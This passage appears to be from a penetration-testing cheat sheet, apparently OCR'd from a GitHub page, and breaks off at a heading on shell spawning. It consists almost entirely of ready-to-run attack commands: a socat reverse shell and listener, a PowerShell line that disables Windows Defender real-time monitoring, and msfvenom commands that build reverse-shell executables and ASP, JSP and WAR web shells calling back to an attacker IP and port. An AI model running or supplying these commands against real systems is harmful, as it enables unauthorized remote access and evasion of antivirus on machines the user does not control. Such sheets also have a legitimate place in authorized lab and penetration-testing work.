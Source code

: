 ```bash
socat TCP:10.10.14.113:443 EXEC:/bin/bash
```

### Socat Listener

```bash
socat TCP-LISTEN:443,reuseaddr,fork EXEC:/bin/bash
```

### Disable Windows Defender Real-Time Monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Payload Generation with MSFvenom

### Linux Reverse Shell Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

### Windows Reverse Shell Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```

### MacOS Reverse Shell Payload

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

### ASP Web Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

### JSP Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

### WAR Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```

### Shell Spawning Techniques
